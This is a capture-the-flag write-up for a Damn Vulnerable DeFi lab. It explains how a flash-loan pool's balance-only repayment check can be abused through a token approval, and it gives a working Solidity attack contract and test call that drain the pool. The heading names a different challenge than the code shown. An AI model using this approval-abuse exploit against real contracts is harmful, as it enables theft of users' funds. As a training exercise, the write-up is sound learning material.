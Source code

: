 # 02_NaiveReceiver

## Challenge

More and more lending pools are offering flash loans. In this case, a new pool has launched that is offering flash loans of DVT tokens for free.

The pool holds 1 million DVT tokens. You have nothing.

To pass this challenge, take all tokens out of the pool. If possible, in a single transaction.

You are provided with the code for the flashloan providing pool:

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "@openzeppelin/contracts/utils/Address.sol";
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";
import "../DamnValuableToken.sol";

/**
 * @title TrusterLenderPool
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract TrusterLenderPool is ReentrancyGuard {
    using Address for address;

    DamnValuableToken public immutable token;

    error RepayFailed();

    constructor(DamnValuableToken _token) {
        token = _token;
    }

    function flashLoan(uint256 amount, address borrower, address target, bytes calldata data)
        external
        nonReentrant
        returns (bool)
    {
        uint256 balanceBefore = token.balanceOf(address(this));

        token.transfer(borrower, amount);
        target.functionCall(data);

        if (token.balanceOf(address(this)) < balanceBefore)
            revert RepayFailed();

        return true;
    }
}
```

## Solution

If we take a look at the testcase, we see that we have to have the pools balance at the end and the pool should not have any money anymore. 

We can achieve this by exploiting that the pool verifies that a loan was payed back by checking if its token balance is the same as before the loan was issued. This doesn't include allowances.

What we can do is give the loan to the pool itself and then call the token.approve() function to approve ourself for spending all the tokens money. Then we return it and the balance is still the same. The problem is that now we are able to spend all the pools money without it checking. We now send all its money to the user and are done. I implemented a small attack contract that does that, as i am not a big hardhat enjoyer:

```soldity
// SPDX-License-Identifier: UNLICENSED

pragma solidity ^0.8.0;

import "./TrusterLenderPool.sol";
import "../DamnValuableToken.sol";

contract Attack_Truster {

    address owner;

    function getEmBoyz(address _pool, address _token) public
    {
        owner = msg.sender;
        DamnValuableToken token = DamnValuableToken(_token);
        TrusterLenderPool pool = TrusterLenderPool(_pool);

        pool.flashLoan(token.balanceOf(_pool), _pool, _token, abi.encodeWithSignature("approve(address,uint256)", address(this), token.balanceOf(_pool)));

        DamnValuableToken(token).transferFrom(_pool, owner, DamnValuableToken(token).balanceOf(_pool));
    }
}
```

We can then call this the same way as in the last challenge:

```js
it('Execution', async function () {
    /** CODE YOUR SOLUTION HERE */

    const Attack_Truster = await ethers.getContractFactory('Attack_Truster', player);
    attack = await Attack_Truster.deploy();
    await attack.connect(player).getEmBoyz(pool.address, (await pool.token()));
});
```

This way we have solved the chall (in 1 tx).

